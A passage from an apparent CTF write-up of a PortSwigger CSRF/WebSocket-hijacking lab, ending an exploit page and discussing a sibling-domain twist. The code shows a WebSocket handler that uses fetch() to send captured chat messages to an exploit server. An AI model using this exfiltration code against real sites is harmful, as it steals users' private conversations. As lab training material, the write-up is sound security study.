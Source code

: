 ```html
            webSocket.onmessage = function(event) {
                // Send a GET request with the chat history to exploit server 
                fetch('https://exploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net/log?'+event.data, {method: 'GET'});
            };
        </script>
    </body>
</html>
```

Then host it and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113202037.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113202053.png)

However, it opened up a new live chat connection. Why?

This happened is because **the JavaScript file is on a sibling domain!**

```
cms-0a200002035e04ccc0cea048008a00db.web-security-academy.net
```

**Let's go to that sibling domain:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113202549.png)